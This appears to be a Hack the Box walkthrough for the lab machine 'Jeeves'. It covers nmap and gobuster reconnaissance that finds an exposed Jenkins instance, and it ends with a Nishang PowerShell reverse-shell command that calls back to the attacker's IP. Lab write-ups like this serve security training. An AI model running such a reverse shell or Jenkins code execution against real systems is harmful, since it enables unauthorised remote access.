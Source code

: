 # Hack the Box - Jeeves

```CSS
Machine IP: 10.10.10.63
```

## NMAP

```CSS
▶ nmap -Pn -sS -p- 10.10.10.63 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 126.42 seconds
```

```CSS
▶ nmap -sC -sV -p 80,135,445,50000 10.10.10.63 -oN deep.nmap 

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T11:01:04
|_  start_date: 2023-05-05T10:53:38
|_clock-skew: mean: 4h59m36s, deviation: 0s, median: 4h59m35s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.18 seconds
```

## HTTP 80
![image](https://user-images.githubusercontent.com/83878909/236389498-19f90e31-9c0d-4d9a-a46d-412576e533ed.png)

## HTTP 50000
![image](https://user-images.githubusercontent.com/83878909/236389674-c5e1bd6b-986d-46fd-b722-774f68fc85b2.png)

## Content Discovery
```CSS
▶ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 25 -o http50000.gobuster
```
![image](https://user-images.githubusercontent.com/83878909/236398246-f2078de0-b176-4b58-ad55-50c921f36af9.png)

### Jenkins
![image](https://user-images.githubusercontent.com/83878909/236398469-e3cc9985-d477-4eb1-ad5d-c2158413b1a3.png)

## Initial Foothold
### Jenkins Code Execution
![image](https://user-images.githubusercontent.com/83878909/236399568-d5c3513a-e53a-4eb0-ad52-78b57a826a65.png)
![image](https://user-images.githubusercontent.com/83878909/236399923-36a48d06-d4bf-4f21-bbbd-774488412b38.png)
![image](https://user-images.githubusercontent.com/83878909/236400279-596d3aac-959f-4467-8461-edf489fdb014.png)

### Reverse Shell (Nishang)
```CSS
Invoke-PowerShellTcp.ps1
```
  - Add the below line to the end of the nishang script to call the function `Invoke-PowerShellTcp`.
```CSS
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 1337
```
![image](https://user-images.githubusercontent.com/83878909/236402506-7d9ab4a3-c03b-4f9a-95df-9919a096fab8.png)
